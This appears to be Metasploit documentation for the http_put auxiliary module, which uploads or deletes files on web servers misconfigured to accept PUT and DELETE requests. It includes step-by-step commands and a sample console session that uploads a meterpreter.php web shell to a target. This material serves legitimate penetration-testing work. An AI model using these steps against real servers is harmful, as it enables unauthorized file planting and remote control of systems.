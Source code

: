 ## Description 
This module can abuse misconfigured web servers to upload and delete web content via PUT and DELETE HTTP requests.

## Verification Steps

1. Do: ```use auxiliary/scanner/http/http_put```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set RPORT [PORT]```
4. Do: ```set PATH [PATH]```
5. Do: ```set FILENAME [FILENAME]```
6. Do: ```set FILEDATA [PATH]```
7. Do: ```run```

## Options

### ACTION

Set `ACTION` to either `PUT` or `DELETE`. (Default: `PUT`)

**PUT**

Action is set to PUT to upload files to the server. If `FILENAME` isn't specified, the module will generate a random string as a .txt file.

**DELETE** 

Deletes the file specified in the `FILENAME` option (Default: `msf_http_put_test.txt`). `FILENAME` is required when Action is set to DELETE. 

### PATH

The path at which this module will attempt to either PUT the content or DELETE it.

### FILEDATA

The content to put in the uploaded file when `ACTION` is set to `PUT`.


## Scenarios

Here `ACTION` is by default set to `PUT`.

```
msf > use auxiliary/scanner/http/http_put
msf auxiliary(scanner/http/http_put) > set RHOSTS 1.1.1.23
RHOSTS => 1.1.1.23
msf auxiliary(scanner/http/http_put) > set RPORT 8585
RPORT => 8585
msf auxiliary(scanner/http/http_put) > set PATH /uploads
PATH => /uploads
msf auxiliary(scanner/http/http_put) > set FILENAME meterpreter.php
FILENAME => meterpreter.php
msf auxiliary(scanner/http/http_put) > set FILEDATA file://root/Desktop/meterpreter.php
FILEDATA => file://root/Desktop/meterpreter.php
msf auxiliary(scanner/http/http_put) > run 

[+] File uploaded: http://1.1.1.23:8585/uploads/meterpreter.php
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/http/http_put) >
```
 
